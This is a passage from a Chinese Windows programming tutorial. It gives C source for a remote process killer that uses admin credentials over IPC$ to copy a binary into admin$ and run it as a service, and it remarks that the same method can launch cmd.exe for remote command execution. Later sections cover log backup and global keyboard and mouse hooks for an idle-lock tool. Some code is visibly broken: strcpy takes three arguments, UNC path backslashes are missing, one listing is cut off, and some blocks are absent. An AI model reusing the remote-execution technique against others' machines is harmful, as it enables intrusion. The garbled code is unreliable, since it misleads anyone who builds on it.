服务端的程序已经好了。接下来还需要一个客户端。如果通过在客户端运行的时候，把killsrv.exe COPY到远程系统上，那么就需要提供两个exe文件给用户，这样显得不是很专业，呵呵。不如我们就把killsrv.exe的二进制码作为buff保存在客户端吧，这样在运行的时候，我们直接把buff中的内容写过去，这样提供给用户一个exe文件就可以了。

Pskill.c的源代码如下：

```
/***************************************************************
Module:PsKill.c
Date:2001/6/23
Author:ey4s<ey4s@21cn.com>
Http://ey4s.126.com
PsKill ==>Local and Remote process killer for windows 2k
***************************************************************/
#include "ps.h"
#define EXE "killsrv.exe"
#define ServiceName "PSKILL"

#pragma comment(lib,"mpr.lib")
///////////////////////////////////////////////////////////
// 定义全局变量
SERVICE_STATUS ssStatus;
SC_HANDLE hSCManager=NULL,hSCService=NULL;
BOOL bKilled=FALSE;
char szTarget[52]={0};
///////////////////////////////////////////////////////////
BOOL ConnIPC(char *,char *,char *);//建立IPC连接函数
BOOL InstallService(DWORD,LPTSTR *);//安装服务函数
BOOL WaitServiceStop();//等待服务停止函数
BOOL RemoyeService();//删除服务函数
///////////////////////////////////////////////////////////
int main(DWORD dwArgc,LPTSTR *lpszArgv)
{
BOOL bRet=FALSE,bFile=FALSE;
char tmp[52]={0},RemoteFilePath[128]={0},
szUser[52]={0},szPass[52]={0};
HANDLE hFile=NULL;
DWORD i=0,dwIndex=0,dwWrite,dwSize=sizeof(exebuff);

// 杀本地进程
if(dwArgc==2)
{
if(KillPS(atoi(lpszArgv[1])))
printf("\nLoacl Process %s have beed killed!",lpszArgv[1]);
else
printf("\nLoacl Process %s can't be killed!ErrorCode:%d",
lpszArgv[1],GetLastError());
return 0;
}
// 用户输入错误
else if(dwArgc!=5)
{
printf("\nPSKILL ==>Local and Remote Process Killer"
"\nPower by ey4s<ey4s@21cn.com>"
"\nhttp://eyas.3322.net 2001/6/23"
"\n\nUsage:%s <PID> <==Killed Local Process"
"\n %s <IP> <User> <PWD> <PID> <==Killed Remote Process\n",
lpszArgv[0],lpszArgv[0]);
return 1;
}
// 杀远程机器进程
strcpy(szTarget,lpszArgv[1],sizeof(szTarget)-1);
strcpy(szUser,lpszArgv[2],sizeof(szUser)-1);
strcpy(szPass,lpszArgv[3],sizeof(szPass)-1);

// 将在目标机器上创建的exe 文件的路径
sprintf(RemoteFilePath,"\%s\admin$\system32\%s",szTarget,EXE);
__try
{
// 与目标建立IPC 连接
if(!ConnIPC(szTarget,szUser,szPass))
{
printf("\nConnect to %s failed:%d",szTarget,GetLastError());
return 1;
}
printf("\nConnect to %s success!",szTarget);
// 在目标机器上创建exe 文件
hFile=CreateFile(RemoteFilePath,GENERIC_ALL,FILE_SHARE_READ|FILE_SHARE_WRITE,
NULL,CREATE_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL);
if(hFile==INVALID_HANDLE_VALUE)
{
printf("\nCreate file %s failed:%d",RemoteFilePath,GetLastError());
__leave;
}
// 写文件内容
while(dwSize>dwIndex)
{
if(!WriteFile(hFile,&exebuff[dwIndex],dwSize-dwIndex,&dwWrite,NULL))
{
printf("\nWrite file %s failed:%d",RemoteFilePath,GetLastError());
__leave;
}
dwIndex+=dwWrite;
}
// 关闭文件句柄
CloseHandle(hFile);
bFile=TRUE;
// 安装服务
if(InstallService(dwArgc,lpszArgv))
{
// 等待服务结束
if(WaitServiceStop())
{
//printf("\nService was stoped!");
}
else
{
//printf("\nService can't be stoped.Try to delete it.");
}
Sleep(500);
// 删除服务
RemoveService();
}
}
__finally
{
// 删除留下的文件
if(bFile) DeleteFile(RemoteFilePath);
// 如果文件句柄没有关闭,关闭之
if(hFile!=NULL) CloseHandle(hFile);
//Close Service handle
if(hSCService!=NULL) CloseServiceHandle(hSCService);
//Close the Service Control Manager handle
if(hSCManager!=NULL) CloseServiceHandle(hSCManager);
// 断开ipc连接
wsprintf(tmp,"\%s\ipc$",szTarget);
WNetCancelConnection2(tmp,CONNECT_UPDATE_PROFILE,TRUE);
if(bKilled)
printf("\nProcess %s on %s have been killed!\n",lpszArgv[4],lpszArgv[1]);
else
printf("\nProcess %s on %s can't be killed!\n",lpszArgv[4],lpszArgv[1]);
}
return 0;
}
```

```
BOOL ConnIPC(char *RemoteName,char *User,char *Pass)
{
NETRESOURCE nr;
char RN[50]="";

strcat(RN,RemoteName);
strcat(RN,"\ipc$");

nr.dwType=RESOURCETYPE_ANY;
nr.lpLocalName=NULL;
nr.lpRemoteName=RN;
nr.lpProvider=NULL;

if(WNetAddConnection2(&nr,Pass,User,FALSE)==NO_ERROR)
return TRUE;
else
return FALSE;
}
///////////////////////////////////////////////////////////
BOOL InstallService(DWORD dwArgc,LPTSTR *lpszArgv)
{
BOOL bRet=FALSE;
__try
{
//Open Service Control Manager on Local or Remote machine
hSCManager=OpenSCManager(szTarget,NULL,SC_MANAGER_ALL_ACCESS);
if(hSCManager==NULL)
{
printf("\nOpen Service Control Manage failed:%d",GetLastError());
__leave;
}
//printf("\nOpen Service Control Manage ok!");
//Create Service
hSCService=CreateService(hSCManager,// handle to SCM database
ServiceName,// name of service to start
ServiceName,// display name
SERVICE_ALL_ACCESS,// type of access to service
SERVICE_WIN32_OWN_PROCESS,// type of service
SERVICE_AUTO_START,// when to start service
SERVICE_ERROR_IGNORE,// severity of service failure
EXE,// name of binary file
NULL,// name of load ordering group
NULL,// tag identifier
NULL,// array of dependency names
NULL,// account name
NULL);// account password
//create service failed
if(hSCService==NULL)
{
// 如果服务已经存在，那么则打开
if(GetLastError()==ERROR_SERVICE_EXISTS)
{
//printf("\nService %s Already exists",ServiceName);
//open service
hSCService = OpenService(hSCManager, ServiceName, SERVICE_ALL_ACCESS);
if(hSCService==NULL)
{
printf("\nOpen Service failed:%d",GetLastError());
__leave;
}
//printf("\nOpen Service %s ok!",ServiceName);
}
else
{
printf("\nCreateService failed:%d",GetLastError());
__leave;
}
}
//create service ok
else
{
//printf("\nCreate Service %s ok!",ServiceName);
}

// 起动服务
if ( StartService(hSCService,dwArgc,lpszArgv))
{
//printf("\nStarting %s.", ServiceName);
Sleep(20);// 时间最好不要超过 100ms
while( QueryServiceStatus(hSCService, &ssStatus ) )
{
if ( ssStatus.dwCurrentState == SERVICE_START_PENDING)
{
printf(".");
Sleep(20);
}
else
break;
}
if ( ssStatus.dwCurrentState != SERVICE_RUNNING )
printf("\n%s failed to run:%d",ServiceName,GetLastError());
}
else if(GetLastError()==ERROR_SERVICE_ALREADY_RUNNING)
{
//printf("\nService %s already running.",ServiceName);
}
else
{
printf("\nStart Service %s failed:%d",ServiceName,GetLastError());
__leave;
}
}
bRet=TRUE;
}//enf of try
__finally
{
return bRet;
}
return bRet;
}
////////////////////////////////////////////////
BOOL WaitServiceStop(void)
{
BOOL bRet=FALSE;
//printf("\nWait Service stoped");
while(1)
{
Sleep(100);
if(!QueryServiceStatus(hSCService, &ssStatus))
{
printf("\nQueryServiceStatus failed:%d",GetLastError());
break;
}
if(ssStatus.dwCurrentState==SERVICE_STOPPED)
{
bKilled=TRUE;
bRet=TRUE;
break;
}
if(ssStatus.dwCurrentState==SERVICE_PAUSED)
{
// 停止服务
bRet=ControlService(hSCService,SERVICE_CONTROL_STOP,NULL);
break;
}
else
{
//printf(".");
continue;
}
}
return bRet;
}
////////////////////////////////////////////////
BOOL RemoveService(void)
{
//Delete Service
if(!DeleteService(hSCService))
{
printf("\nDeleteService failed:%d",GetLastError());
return FALSE;
}
//printf("\nDelete Service ok!");
return TRUE;
}
////////////////////////////////////////////////////////////////
其中ps.h头文件的内容如下:
////////////////////////////////////////////////////////////////
#include <stdio.h>
#include <windows.h>
#include "function.c"

unsigned char exebuff[]="这里存放的是killsrv.exe的二进制码";
////////////////////////////////////////////////////////////////
```

以上程序在Windows2000、VC++6.0环境下编译，测试还行。编译好的pskill.exe在我的主页http://ey4s.126.com有下载。

其实我们变通一下，改变一下killsrv.exe的内容，例如启动一个cmd.exe什么的，这样有了admin权限，并且可以建立IPC连接的时候，不就可以在远程运行命令了吗。象www.sysinternals.com出的psexec.exe和小榕的ntcmd.exe原理都和这差不多的。

也许有人会问了，怎么得到程序的二进制码？随便用一个二进制编辑器，例如UltraEdit等。但是好像不能把二进制码保存为文本，类似这样"\xAB\x77\xCD"，所以我们就不能直接用了。懒的去找这样的工具了，自己写个简单的吧，代码如下:

```
/**************************************************************
Module:exe2hex.c
Author:ey4s<ey4s@21cn.com>
Http://ey4s.126.com
Date:2001/6/23
**************************************************************/
#include <stdio.h>
#include <windows.h>
int main(int argc,char **argv)
{
HANDLE hFile;
DWORD dwSize,dwRead,dwIndex=0,i;
unsigned char *lpBuff=NULL;
__try
{
if(argc!=2)
{
printf("\nUsage: %s <File>",argv[0]);
__leave;
}
hFile=CreateFile(argv[1],GENERIC_READ,FILE_SHARE_READ,NULL,OPEN_EXISTING,
FILE_ATTRIBUTE_NORMAL,NULL);
if(hFile==INVALID_HANDLE_VALUE)
{
printf("\nOpen file %s failed:%d",argv[1],GetLastError());
__leave;
}
```

### 5.3 利用脚本编程格式化输出转存系统日志

一个优秀的NT网络的管理员，往往会定期地备份系统日志，以备查询服务器运行状况及系统安全状况。如果利用系统日志的“另存为”功能手工备份，则比较麻烦，而且输出的日志难以实现格式化输出，微软的Resource Kit工具包中有一个免费的查看本地或远程日志的小工具dumpel.exe，利用它可以把日志存为文本文件以备后需，在这里我利用Windows脚本编程来实现定期备份并格式化输出HTML文件，如果条件许可，可直接转储到打印机上打印。下面是具体的实现方法：

Windows脚本编程包括VBScript和JavaScript，这也是网页特效编程中常见的语言，实际上利用VBS和JS强大的系统和网络管理功能，可以使系统管理员简化很多工作。

VBS和JS本身不提供察看日志的方法，但WScript.Shell具有Run方法，即可以运行Windows命令，所以我们要借助上面说的dumpel工具，首先说一下它的使用方法：

```
dumpel -f file [-s \\server -l log [-m source]] [-e n1 n2 n3...] [-r] [-t] [-d x]
```

- 常用的参数：
  - -f file 即为日志的存储位置和文件名；
  - -s server 在查看远程日志时使用（必须有admin权限）；
  - -m 过滤日志条件；
  - -l 指定日志，如系统日志（system），应用程序（application），安全日志（security），域控制器还有DNS文件复制等。

例如，要把server01上安全日志保存为security.log

命令：dumpel -f security.log -s \\server01 -l security 然后即产生一个security.log的文本文档，为了得到格式化输出的日志文件，我们采取下面的编程方法：假设我们要查看日志的服务器为\\server，存储位置为\\data\backup，文件名为“计算机名+日期+日志类型”.html。

并通过计划任务，一天产生一个HTML文档，源代码如下：



将以上代码用记事本打开，并把后缀名存为.js，与dumpel.exe放在同一目录下，双击即可运行，运行后自动建立“计算机名+日期+日志类型”.html文件。要使此脚本程序定期地进行日志备份，可以利用Windows图形化的计划任务或是“at”命令。例如，需要在每天的0:00执行此脚本来备份系统日志，则在命令提示行下输入：

```
at \\server /every M,T,W,Th,F,S,Su 0:00 "path\logreport.js"
```

- 此处server为logreport.js所在的机器，本机可省略。
- path为logreport.js所在的路径，默认的为%systemroot%，可以省略。

由此可见，一个好的系统管理员，如果能够利用好Windows脚本编程，能给管理工作带来很大的便利。

### 5.4 通过钩子实现定时锁定系统

#### 一、示例说明

本示例是因为公司在设计一应用软件时，需要在系统的级别下监视鼠标键盘的响应来判定计算机是否处于无人状况。如果在无人的情况下，定时锁定系统，达到保卫电脑的内部数据的作用（类似Windows系统内部的屏幕保护。经优化修改后的代码已被公司采用）。因为要处在系统级上，并需要在系统上另开一线程监视键盘鼠标，所以本程序不同于以前的编程，既利用了编辑动态链接库（DLL）的方法，语言选用了MASM 7（Windows下的宏汇编）+VB6.0两种语言来实现。

从本程序中我们可以学习到怎样在Windows下种钩子程序（即通常说的HOOK程序），怎么实现VB同其他语言编辑的DLL程序之间的消息传递及对Windows下API函数的调用，对Windows注册表的改写。本例着重对VB下的程序进行分析，而对汇编下的程序只是公布代码，不做具体分析。

#### 二、编程思路

本程序的思路是在DLL程序下用钩子函数——SetWindowsHookEx，开一新的线程截获系统的键盘、鼠标响应；然后从DLL利用PostMessage传给VB的应用程序。VB程序的本窗体在加载钩子函数的时候把窗体句柄传给了DLL，并与返回的消息挂钩，从而判断消息的返回值，分辨键盘鼠标消息。

VB程序用到了两个时间控件，其中一个是实时判断时间是否达到我们要的时间，来激活计算机锁定子程序；另一个时间控件是当锁定子程序激活，实时锁定系统，达到保卫本系统数据的目的。

本程序的DLL部分，因为SetWindowsHookEx在Windows 95以上系统都能利用，所以程序可以在Windows 98/2K等系统下运行，没有系统版本的局限性。只是在VB部分，需判断系统9X和NT，达到锁定不同Windows版本的目的。在此，读者还可以学到怎样区分系统版本的API函数以及锁定不同版本的Windows的API函数，我们还可以把其中锁定系统部分孤立出来自己分析，做出自己的计算机LOCK程序！

因为本程序对于一些初学者有一定的难度，我们可以对用汇编编辑的DLL部分不予理会，把DLL当作一个“黑匣子”，认为它只是返回我们所需的系统响应鼠标、键盘的消息代码。你可以直接利用我编译好的DLL文件。当你把本程序彻底搞懂的时候，你会发现你的编程水平有质的飞跃。

#### 三、创作步骤

1. 我们先编辑DLL文件。我选择的是MASM32 7.0 + EditPlus 2.1C来编辑和编译DLL程序。如图5-1所示。



图5-1

(1) 运行EditPlus 2.1C输入以下代码：

```
.386
.model flat,stdcall
option casemap:none
include \masm32\include\windows.inc
include \masm32\include\kernel32.inc
includelib \masm32\lib\kernel32.lib
include \masm32\include\user32.inc
includelib \masm32\lib\user32.lib
.const
WM_MOUSEHOOK equ WM_USER+6
WM_KEYHOOK equ WM_USER
.data
hInstance dd ?
HOOK dd NULL
MhHook dd ?
KhHook dd ?
.data?
hWnd dd ?
.code
DllEntry proc hInst:HINSTANCE, reason:DWORD, reserved1:DWORD
.if reason==DLL_PROCESS_ATTACH
push hInst
pop hInstance
mov eax,TRUE
.endif
ret
DllEntry Endp
MouseProc proc nCode:DWORD,wParam:DWORD,lParam:DWORD
invoke CallNextHookEx,MhHook,nCode,wParam,lParam
mov edx,lParam
.if nCode == HC_ACTION
invoke PostMessage,hWnd,WM_MOUSEHOOK,wParam,lParam
.endif
xor eax,eax
ret
MouseProc endp
KeyProc proc nCode:DWORD,wParam:DWORD,lParam:DWORD
invoke CallNextHookEx,KhHook,nCode,wParam,lParam
.if nCode == HC_ACTION
invoke PostMessage,hWnd,WM_KEYHOOK,wParam,lParam
.endif
assume edx:nothing
xor eax,eax
ret
KeyProc endp
InstallHook proc hwnd:DWORD
push hwnd
pop hWnd
;.if HOOK == NULL
invoke SetWindowsHookEx,WH_MOUSE,addr MouseProc,hInstance,0
mov MhHook,eax
;invoke InterlockedExchange,addr HOOK,eax
invoke SetWindowsHookEx,WH_KEYBOARD,addr KeyProc,hInstance,0
mov KhHook,eax
;invoke InterlockedExchange ,addr HOOK,KhHook
;.endif
ret
InstallHook endp
UninstallHook proc
invoke UnhookWindowsHookEx,MhHook
invoke UnhookWindowsHookEx,KhHook
ret
UninstallHook endp
End DllEntry
```

(2) 在“文件”菜单，选择“保存”，文件名为LXHOOK.ASM。

(3) 在“工具”菜单，选“编译DLL”，编译我们DLL文件。编译后名字为LXHOOK.DLL。现在我对程序所使用的API函数说明一下。

```
SetWindowsHookEx proto HookType:DWORD, pHookProc:DWORD, hInstance:DWORD, ThreadID:DWORD
```

HookType:

是下钩子能截获的消息：

- WH_CALLWNDPROC 当调用SendMessage时
- WH_CALLWNDPROC 当SendMessage的调用返回时
- WH_GETMESSAGE 当调用GetMessage 或 PeekMessage时
- WH_KEYBOARD 当调用GetMessage 或 PeekMessage 从消息队列中查询WM_KEYUP 或 WM_KEYDOWN 消息时
- WH_MOUSE 当调用GetMessage 或 PeekMessage 从消息队列中查询鼠标事件消息时
- WH_HARDWARE 当调用GetMessage 或 PeekMessage 从消息队列中查询非鼠标、键盘消息时
- WH_MSGFILTER 当对话框、菜单或滚动条要处理一个消息时。该钩子是局部的，它是为那些有自己的消息处理过程的控件对象设计的
- WH_SYSMSGFILTER 和WH_MSGFILTER一样，只不过是系统范围的
- WH_JOURNALRECORD 当Windows从硬件队列中获得消息时
- WH_JOURNALPLAYBACK 当一个事件从系统的硬件输入队列中被请求时
- WH_SHELL 当关于Windows外壳事件发生时，譬如任务条需要重画它的按钮
- WH_CBT 当基于计算机的训练（CBT）事件发生时
- WH_FOREGROUNDIDLE 由Windows自己使用，一般的应用程序很少使用
- WH_DEBUG 用来给钩子函数除错

pHookProc 是钩子函数的地址。如果使用的是远程的钩子，就必须放在一个DLL中，否则放在本身代码中。

hInstance 钩子函数所在DLL的实例句柄。如果是一个局部的钩子，该值为NULL。

ThreadID 是安装该钩子函数后想监控的线程的ID号。该参数可以决定该钩子是局部的还是系统范围的。如果该值为NULL，那么该钩子将被解释成系统范围内的，那它就可以监控所有的进程及它们的线程。如果你指定了你自己进程中的某个线程ID号，那么该钩子是一个局部的钩子。如果该线程ID是另一个进程中某个线程的ID，那么该钩子是一个全局的远程钩子。这里有两个特殊情况：WH_JOURNALRECORD 和 WH_JOURNALPLAYBACK是代表局部的系统范围的钩子。之所以说局部，是因为它们没有必要放到一个DLL中。WH_SYSMSGFILTER 总是一个系统范围内的远程钩子。其实它和WH_MSGFILTER钩子类似，如果把参数ThreadID设成0的话，它们就完全一样了。

这里还有一个问题需要注意：所有的钩子都串在一个链表上，最近加入的钩子放在链表的头部。当一个事件发生时，Windows将按照从链表头到链表尾调用的顺序，所以你的钩子函数有责任把消息传到下一个链中的钩子函数。当然，你可以不这样做，但是最好明白这么做的原因。在大多数的情况下，最好把消息事件传递下去，以便其他的钩子都有机会获得处理这一消息的机会。调用下一个钩子函数可以调用函数CallNextHookEx。该函数的原型如下：

```
CallNextHookEx proto hHook:DWORD, nCode:DWORD, wParam:DWORD, lParam:DWORD
```

- hHook 是你自己的钩子函数的句柄。利用该句柄可以遍历钩子链
- nCode, wParam and lParam 您只要把传入的参数简单传给CallNextHookEx即可。

2. 创建窗口。在Visual Basic下编辑我们的计算机定时锁定程序。本程序用到了两个窗体，一个窗体是密码激活时间的输入窗体。如图5-2所示。



图5-2

(1) 启动Visual Basic，打开一个新的标准工程，如果启动Visual Basic已经运行，那么可在“文件”菜单中单击“新建工程”菜单项，打开一新的标准工程。
(2) 在窗体1中加入两个命令按钮和两个文本输入框，其他的就看你自己喜欢了！
(3) 各属性设置如下表所示：

| 控件名 | 属性项 | 属性设置值 |
| --- | --- | --- |
| FORM | BackColor | &H00FFC0C0& |
|  | Caption | 请认真填写！ |
| COMMAND | 名称 | cmdOk |
|  | BackColor | &H00FFC0C0& |
|  | Caption | 确认 |
| COMMAND | 名称 | cmdCancel |
|  | BackColor | &H00FFC0C0& |
|  | Caption | 取消 |
| TEXT | 名称 | Text3 |
|  | PassWordChar | * |
| TEXT | 名称 | Text4 |

3. 这是另一个锁定系统时弹出的窗体。如图5-3。



图5-3

(1) 在窗体中加入两个时间控件。
(2) 在窗体中加入一个命令按钮。
(3) 在窗体中加入一个文本框。
(4) 再加入3个Label。
各属性设置如下表所示：

| 控件名 | 属性项 | 属性设置值 |
| --- | --- | --- |
| FORM | BackColor | &H00FFC0C0& |
|  | Caption | 锁定窗口 |
| COMMAND | 名称 | Command1 |
|  | Caption | 密码确认 |
| TEXT | 名称 | Text1 |
|  | PassWordChar | * |
| LABEL | 名称 | Label3 |
|  | BackColor | &H80000001& |
| LABEL | 名称 | Label2 |
|  | BackColor | &H80000001& |
| LABEL | 名称 | Label4 |
|  | BackColor | &H80000001& |
|  | Caption | 您的计算机已经被锁定！！请输入密码解锁！！ |

4. 为工程编写事件驱动代码。
在VB的工程资源管理器中，在我们的工程上点右鼠标键，添加我们的模块（Module1）。在Module1内写如下的代码：

```
Option Explicit
Public Const GWL_WNDPROC = (-4)
Public Const WM_USER = &H400
Public SetTime As Long
Public Passw As String
Public Nowtime As Long
Public Alivetime As Date
Public ScreenSaveB As Boolean
'以上的公共变量是为了在窗体和各过程间传递值
'Passw 为密码，SetTime 为激活时间
Declare Function CallWindowProc Lib "user32" Alias "CallWindowProcA" (ByVal lpPrevWndFunc As Long, ByVal hwnd As Long, ByVal Msg As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
Declare Function GetWindowLong Lib "user32" Alias "GetWindowLongA" (ByVal hwnd As Long, ByVal nIndex As Long) As Long
Declare Function SetWindowLong Lib "user32" Alias "SetWindowLongA" (ByVal hwnd As Long, ByVal nIndex As Long, ByVal dwNewLong As Long) As Long
'以上为系统API函数的声明模块
Declare Function InstallLXHook Lib "LXhook" (ByVal hwndPost As Long) As Long
Declare Function UninstallLXHook Lib "LXhook" () As Long
'以上为声明我们刚刚编辑的DLL文件引用的过程。
Public prevWndProc As Long
Function WndProc(ByVal hwnd As Long, ByVal Msg As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
If Msg = WM_USER Then
'此为判断是否为键盘响应
Alivetime = Time
```

```
'保存最后键盘响应的时间
ScreenSaveB = False
End If
If Msg = WM_USER + 6 And wParam <> 512 Then '此为判断是否为鼠标响应
Alivetime = Time '保存最后鼠标响应的时间
ScreenSaveB = False
End If
WndProc = CallWindowProc(prevWndProc, hwnd, Msg, wParam, lParam)
End Function
```

到此，我们学会了用汇编编辑DLL、在VB下声明API函数以及如何在VB程序下同DLL传递消息。虽然我们已经创建了窗体，但我们还没有写事件驱动代码。下一期我们将要填写完驱动代码，完成我们的定时锁定程序。

下面我们将要填写完驱动代码，完成我们的程序。在此我们利用了类模块，这正是VB面向对象编程语言的体现。

在VB的工程资源管理器中，在我们的工程上点右鼠标键，添加我们的类模块。（Windows pb）本类模块各个过程是为了锁定Windows 9x/2K，读者们可以把它孤立出来，使用在自己的作品中。在windowspb内写下如下的代码：

其中用到SetWindowPos这个函数，它能为窗口指定一个新位置和状态。它也可改变窗口在内部窗口列表中的位置。该函数与DeferWindowPos函数相似，只是它的作用是立即表现出来的。HWND_TOPMOST——将窗口置于列表顶部，并位于任何最顶部窗口的前面；SWP_SHOWWINDOW——显示窗口，详细见代码内容。

我们在一个密码激活时间的输入窗体中加入代码如下：

```
Option Explicit
Private Sub cmdCancel_Click()
Unload Me
'如果点取消，退出本程序!
End Sub
Private Sub cmdOk_Click()
Passw = Text3.Text
SetTime = Val(Text4.Text)
'val 函数是把字符串转换为数字
锁定窗口.Show
'呼叫锁定窗口
Unload Me
'退出本窗口
End Sub
```

而锁定系统时弹出的窗体的代码如：

5. 编译并运行程序

按F5键或单击Visual Basic工具栏中的运行按钮，编译并运行程序。
效果如这一个窗体是密码激活时间的输入窗体（图5-4）。锁定系统时弹出的窗体（图5-5）。

图5-4

图5-5

本程序在C500 +128MB +20G下运行成功，因为是最初的代码没有进行优化，只是验证程序的可行性，必有不到之处请读者多多原谅。希望读者能在我所提供程序基础上对VB和汇编编程有所提高，技术更上层楼。

## 5.5 学做个性的Windows任务管理器

Windows2000/XP内含的任务管理器(Taskmgr)相信大家都熟悉吧，相比之下XP里的要比2000功能更加强大，返回的信息也更加的详细，不过你是否觉得还有很多希望获得的消息没有包含在里面呢？是否觉得Windows的系统管理工具箱里的东西太分散了呢？下面就让我们看看它们的开发原理，并动手实现一个真正的任务管理器。现在我们是调用Win32API来实现这些功能的，但是大家都说MS隐藏了太多的细节，以后我们将讨论更多关于Windows内核的东东。

#### 一、任务管理器开发原理

